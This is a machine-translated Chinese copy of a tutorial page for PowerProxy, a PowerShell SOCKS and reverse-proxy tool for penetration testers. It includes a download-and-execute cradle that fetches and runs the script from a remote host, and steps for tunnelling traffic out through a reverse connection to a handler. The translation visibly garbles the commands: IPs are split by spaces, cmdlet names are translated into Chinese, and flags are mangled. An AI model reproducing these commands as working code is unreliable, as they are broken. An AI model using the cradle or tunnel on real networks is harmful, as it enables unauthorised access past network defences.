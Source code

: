 # PowerProxy:具有反向代理功能的 PowerShell SOCKS 代理

> 原文：<https://kalilinuxtutorials.com/powerproxy/>

[![](img/cee58e8d88272d1a54333daa56ff7dec.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPqRKWApKgOZgiCruNP8X3l36auUY7VDI-ozM0_o9AOGrq1f0pPm63ciscTO-bP2_gB0U8Egv2QaCGSbHlGzvWXl8IPbm6Wax9a6Ihcaq5dhy1lZL3ENyhpiFiXVQoY9GP35OgWra0wr5opoIFNBQvSEtVl1Y1zWK-nhOks6Hc-1CpAD8e3RKU_lQ6/s728/download%20(1).png)

PowerProxy 是一个具有反向代理功能的 PowerShell SOCKS 代理。

PowerProxy 是为渗透测试人员编写的。对于穿越阻止入站连接的网络，反向代理功能是优先考虑的。默认情况下，反向代理连接是加密的。Socks 5 连接支持用户名/密码验证。

## 设置

导入脚本:

iex (new-object net.webclient)。download string(" http://192 . 168 . 0 . 22/power proxy . PS1 ")
或
Import-Module \ 192 . 168 . 0 . 22 \ Public \ power proxy . PS1

**reverse_proxy_handler.py** 可以创建临时 SSL 证书，这需要 OpenSSL。如果您的机器上没有安装 OpenSSL(大多数基于 Linux/Unix 的系统上都有)，请提供您自己的证书或使用*–不加密*选项。

## 用法

详细用法，查看 PowerProxy 的帮助，或者使用*。/reverse _ proxy _ handler . py–help*

### **运行反向代理**

在本地机器上，启动处理程序:

**监听端口 8080 上的反向代理。客户端连接到端口 1080(默认)
。/reverse _ proxy _ handler . py-p 8080**

在 PowerShell 中:

**启动-反向锁止 172.1.1.20-端口 8080**

代理客户端可以将 reverse_proxy_handler.py 创建的服务器视为实际的 SOCKS 服务器:

**curl–socks 4 127 . 0 . 0 . 1:1080 http://10 . 10 . 2 . 69/**

**运行传统的 SOCKS 服务器**

**起始 socks 代理 172.10.2.20 端口 9050**

### 要求认证

使用 PSCredential 对象要求用户名和密码:

**创建凭证
$ Password = convert to-SecureString-asplaint ext-Force " passw0rd 123 "
$ Cred = New-Object System。management . automation . PS Credential(" proxy user "，$ Password)
Start-reversesocks proxy-Credential $ Cred-Address 10 . 10 . 10 . 24-Verbose**

[**Download**](https://github.com/get-get-get-get/PowerProxy)